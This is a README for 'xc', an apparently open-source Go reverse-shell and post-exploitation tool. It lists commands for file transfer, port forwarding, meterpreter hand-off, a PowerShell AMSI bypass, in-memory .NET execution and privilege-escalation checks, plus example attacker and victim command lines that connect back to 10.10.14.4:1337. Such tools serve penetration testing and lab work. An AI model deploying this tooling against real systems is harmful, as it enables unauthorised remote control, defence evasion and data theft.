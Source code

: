 # xc

Netcat like reverse shell for Linux & Windows. This is/was my project for learning golang so expect some bugs. If you want to support this project you can reach out to me on twitter or discord - plenty of things to work on ;)

## Features

### Windows

```  
Usage:
└ Shared Commands:  !exit
  !upload <src> <dst>
   * uploads a file to the target
  !download <src> <dst>
   * downloads a file from the target
  !lfwd <localport> <remoteaddr> <remoteport>
   * local portforwarding (like ssh -L)
  !rfwd <remoteport> <localaddr> <localport>
   * remote portforwarding (like ssh -R)
  !lsfwd
   * lists active forwards
  !rmfwd <index>
   * removes forward by index
  !plugins
   * lists available plugins
  !plugin <plugin>
   * execute a plugin
  !spawn <port>
   * spawns another client on the specified port
  !shell
   * runs /bin/sh
  !runas <username> <password> <domain>
   * restart xc with the specified user
  !met <port>
   * connects to a x64/meterpreter/reverse_tcp listener
└ OS Specific Commands:
  !powershell
    * starts powershell with AMSI Bypass
  !rc <port>
    * connects to a local bind shell and restarts this client over it
  !runasps <username> <password> <domain>
    * restart xc with the specified user using powershell
  !vulns
    * checks for common vulnerabilities
  !net <sample.exe> <arg1> <arg2> ...
    * Uploads & Runs a .NET assembly from memory
``` 

### Linux

```
Usage:
└ Shared Commands:  !exit
  !upload <src> <dst>
   * uploads a file to the target
  !download <src> <dst>
   * downloads a file from the target
  !lfwd <localport> <remoteaddr> <remoteport>
   * local portforwarding (like ssh -L)
  !rfwd <remoteport> <localaddr> <localport>
   * remote portforwarding (like ssh -R)
  !lsfwd
   * lists active forwards
  !rmfwd <index>
   * removes forward by index
  !plugins
   * lists available plugins
  !plugin <plugin>
   * execute a plugin
  !spawn <port>
   * spawns another client on the specified port
  !shell
   * runs /bin/sh
  !runas <username> <password> <domain>
   * restart xc with the specified user
  !met <port>
   * connects to a x64/meterpreter/reverse_tcp listener
└ OS Specific Commands:
 !ssh <port>
   * starts sshd with the configured keys on the specified port
``` 

## Examples

- Linux Attacker:	  `rlwrap xc -l -p 1337`			(Server)
- WindowsVictim :   `xc.exe 10.10.14.4 1337`	  (Client)
- Argumentless:     `xc_10.10.14.4_1337.exe`    (Client)

## Setup

Make sure you are running golang version 1.15+, older versions will not compile. I tested it on ubuntu: `go version go1.16.2 linux/amd64`.

``` 
go get golang.org/x/sys/...
go get golang.org/x/text/encoding/unicode
go get github.com/hashicorp/yamux
go get github.com/ropnop/go-clr
pip3 install donut-shellcode
sudo apt-get install rlwrap
sudo apt-get install upx
``` 

Linux:
```
make
```

## Known Issues

* When !lfwd fails due to lack of permissions (missing sudo), the entry in !lsfwd is still created
* Can't Ctrl+C out of powershell started from !shell
* !net (execute-assembly) fails after using it a few times - for now you can !restart and it might work again
* Tested:
  - Kali (Attacker) Win 10 (Victim)

## Credits

* Included PrivescCheck by itm4n for Windows Clients: https://github.com/itm4n/PrivescCheck  
